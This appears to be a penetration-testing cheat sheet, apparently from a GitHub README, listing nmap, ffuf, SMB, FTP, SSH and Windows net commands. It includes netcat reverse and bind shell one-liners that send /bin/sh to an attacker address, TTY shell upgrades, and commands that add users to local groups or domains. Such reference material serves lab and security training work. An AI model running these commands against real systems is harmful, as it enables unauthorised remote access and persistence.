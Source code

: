 # NMAP
~~~
nmap -T4 -p- -A <target ip>
~~~
# Python Webserver
~~~
python3 -m http.server <port>
~~~

# Netcat
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~
## Reverse Shell
### Attacker Listener
nc -nlvp 4444

### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh

## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444

### Target Listener
nc -nvlp 4444 -e /bin/sh
~~~

# TTY Shell
~~~
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'

## Echo
echo 'os.system('/bin/bash')'

## sh
/bin/sh -i

## bash
/bin/bash -i

## Perl
perl -e 'exec "/bin/sh";'

## From within VI
:!bash
~~~
# System Info
~~~
uname -a
~~~
# Privilege Escalation Check
~~~
sudo -l
~~~
# OpenVPN
~~~
sudo openvpn <file>.vpn
~~~
# ffuf
~~~
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<ip>/FUZZ
~~~
# SSH
~~~
#Specify specific file to authenticate
ssh -i <privatekeyfile> <username>@<ipaddress>
ssh -i id_rsa john@10.10.6.100
~~~
# Net use
~~~
# change password
net use <username> <new password>
net use <username> <new password> /domain

# connect user
net use \<fqdn | ip address>\ipc$ /user:<username>
net use \<fqdn | ip address>\ipc$ /user:<domain>\<username>

# add user to local group
net localgroup <groupname> <username> /add

# add user to a domain
net user <new username> /add /domain
~~~
# smbmap
~~~
smbmap -H <targetip> -u 'anonymous'
smbmap -H <targetip> -u 'guest'
~~~
# SMB
![afbeelding](https://github.com/user-attachments/assets/f0f99542-4082-4e29-8b88-f752714038f5)
https://www.computerhope.com/unix/smbclien.htm 
~~~
* You can make use of // or \\\\...\\
* Don't forget sudo if you want to download to your own folder
## List SMB shares
smbclient -L \\\\<target ip>\\

## Connect to SMB share
smbclient \\\\<target ip>\\<share>
smbclient \\\\<target ip>\\<share> -U <user>
smbclient \\\\<target ip>\\<share> -U <user>%<password>
smbclient \\\\<target ip>\\<share> -U <user> -p <port>

smbclient "//<target ip>/<share with space in name>" -U "<domain>\\<username>"
smbclient "\\\\<target ip>\\<share with space in name>" -U "<domain>\\<username>"

## Commands
cd
dir
put
more
get <remote-file> <local-file name>
exit
~~~
# FTP
~~~
Command/Option	Example	Description
ftp host	| ftp ftp.example.com	 |Connect to an FTP server
open host	| open ftp.example.com	| Connect to an FTP server
user	 | user username password	| Log in with username and password
ls	| ls	List files in the current directory
cd	cd /path/to/dir	Change remote directory
get	get file.txt	Download a file from the server
put	put file.txt	Upload a file to the server
mget	mget *.txt	Download multiple files
mput	mput *.txt	Upload multiple files
delete	delete file.txt	Delete a file on the server
mkdir	mkdir newdir	Create a new directory on the server
rmdir	rmdir olddir	Remove a directory on the server
bye	bye	Close the connection and exit
~~~
